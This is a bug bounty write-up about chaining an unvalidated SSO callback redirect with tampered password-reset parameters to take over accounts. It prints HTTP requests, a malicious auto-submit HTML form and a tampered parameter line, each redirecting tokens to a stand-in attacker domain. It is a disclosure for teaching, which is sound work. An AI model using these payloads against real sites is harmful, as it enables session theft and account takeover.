 ```yaml
---
layout: post
title: From Unvalidated Redirect and Parameter Tampering to Account Takeover
excerpt: "In this simple write-up, I would like to tell how I found an Account Takeover vulnerability with a unique method. There's no special or unique bypass thing. Just try to find another exploitation way."
tags: [bug hunting, hacking, unvalidated redirect, parameter tampering, account takeover]
categories: [bug hunting]
comments: true
image:
  feature: 5ee3bc3a3226da3dc1a3f88671451018.png
---
```



بسم الله الرحمن الرحيم

In this simple write-up, I would like to tell how I found an Account Takeover vulnerability with a unique method. There's no special or unique bypass thing. Just try to find another exploitation way.

>Because this is a Private Program, all Endpoint names, parameters, and part of the information displayed here is not the real name. This was made to give readers an idea to make it easier to understand the contents of this paper.

Some time ago, I did a Bug Hunting activity on a website based application. The site has several subdomains, each of which has different functions. This website uses SSO as an authentication scheme to make it easier for users to access each of the existing subdomains.

**I. Unvalidated Redirect**

When accessing different subdomains, there is a `Login Button` which when the user clicks, the user will send a request like the following:

```
POST /ssoLogin HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 123
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept-Encoding: gzip, deflate

action=login&app=app.name&callback=https://app.redacted.com/callback
```

Then the user will be directed to the subdomain URL along with access token on it.

Example:

```
https://app.redacted.com/callback?token=uaJfJi8hlNFCPSiKmjWO
```

This request can be manipulated by changing the value of the `callback` parameter to `app.redacted.com.attacker.com.` The attacker can steal user tokens by diverting callbacks to websites controlled by the attacker and creating simple malicious HTML like this:

```html
<html>
	<body>
		<form method="POST" action="https://redacted.com/ssoLogin">
			<input type="hidden" name="action" value="login"/>
			<input type="hidden" name="app" value="app.name"/>
			<input type="hidden" name="callback" value="https://app.redacted.com.attacker.com/callback"/>
			<input type="submit" value="Submit">
		</form>
	</body>
<html>
```

Sending `malicious links` to victims is boring, so I tried to find another way to trigger the request.

**II. Parameter Tampering**

After browsing through some of the features of the application, I found something interesting about the password reset function. When the user resets the password, then the user will be asked to enter his email address, but when making an intercept request, several other parameters are sent, not just email.

```
POST /resetPassword HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 123
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept-Encoding: gzip, deflate

action=resetpass&app=null&callback=null
```

There are similar parameters that are sent when logging into another subdomain when using SSO, it's `app` and `callback`.

So I tried to change the value the same as the previous request:

`app=app.name&callback=https://app.redacted.com.attacker.com/callback`

Surprisingly, I received an email to request a password with a URL like this:

`https://redacted.com/resetPassword?token=uaJfJi8hlNFCPSiKmjWO&app=app.name&callback=https://app.redacted.com.attacker.com/callback`

After entering a new password, the user will automatically be redirected to the login process along with the parameters listed in the URL. Of course, because the `callback` parameter has been manipulated, the user will be directed to the attacker's website along with its access token.

Attack Flow:

![Attack Flow](/assets/ba62970936fbee1b8f84b6fd8dc9fb24.png)

Attacker will receive a request on his server with user's token on it.

![Attacker's Side](/assets/f3abb86bd34cf4d52698f14c0da1dc60.jpg)

I report this issue through Bugcrowd.

```
Timeline:

2019-10-17: Report Sent
2019-10-17: Report Triaged
2019-10-25: $4,500 Bounty Awarded
2020-03-03: Fixed
```

